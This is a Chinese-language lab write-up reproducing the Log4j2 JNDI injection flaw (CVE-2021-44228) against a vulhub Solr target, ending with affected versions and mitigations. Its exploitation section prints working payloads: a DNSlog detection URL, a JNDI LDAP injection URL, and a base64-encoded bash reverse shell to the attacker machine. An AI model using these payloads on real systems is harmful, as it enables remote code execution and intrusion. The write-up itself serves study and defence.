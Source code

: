 # log4j2漏洞复现【CVE-2021-44228】

*** 前言***

- vulhub靶场
- 攻击机：192.168.200.155，靶机：192.168.200.150

### 漏洞简介

log4j2是apache log4j2为开源日志库，用于记录java日志。该远程代码执行漏洞基于攻击者使用${}关键标识触发JNDI注入漏洞，可以执行任意代码。

### 漏洞探测

- 在``` http://dnslog.cn/```网站中拿到一个临时的DNS，点击```Get SubDomain```即可。

![image-20240428141918938](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428141918938.png)
- 靶机进入文件夹中开启docker环境，访问靶机ip:8983看到Solr界面即启动成功。

  ``` 
  命令：sudo docker-compose up -d
  ```

![image-20240428142557006](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240428142557006.png)

![image-20240428142759122](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428142759122.png)

- 在浏览器中输入下方内容，显示该页面表示成功。

  ```
  http://192.168.200.150:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.ur0yrb.dnslog.cn}
  ```

![image-20240428143445982](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428143445982.png)

- 回到dnslog.cn网址，点击```Refresh Record```刷新数据，成功回显java版本号代表存在Log4J2漏洞。

![image-20240428143713946](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428143713946.png)
### 漏洞利用

- 在攻击机中输入下方命令下载注入工具 ，并解压文件并进入tools文件夹下。

  ```
  git clone https://github.com/bkfish/Apache-Log4j-Learning.git
  ```


![image-20240428144346506](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428144346506.png)

- 攻击机再开一个终端用来监听端口，等待反弹的shell。这里我使用的是6666端口。

![image-20240428144837456](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428144837456.png)

- 攻击机把反弹shell的命令进行base64编码后写入到下方命令并运行。

  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xNTUvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.200.155"
  ```
![image-20240428145009591](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145009591.png)

![image-20240428145438605](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145438605.png)

- 在红框中随便选一个payload使用即可。
![image-20240428145707376](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145707376.png)

```
构造payload:http://192.168.200.150:8983/solr/admin/cores?action=${jndi:ldap://192.168.200.155:1389/lsaybx}
```

- 在浏览器中输入完成后，可以看到已经拿到shell。

  ![image-20240428150122077](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428150122077.png)

### 影响范围

log4j版本：2.x <= 2.14.1

JDK 版本：小于 8u191、7u201、6u211



### 漏洞修复

1. 禁止用户请求参数出现攻击关键字
2. 禁止lookup下载远程文件
3. 禁止log4j的应用连接外网
4. 禁止log4j使用lookup
5. 从log4j jar包中中删除lookup 2.10以下
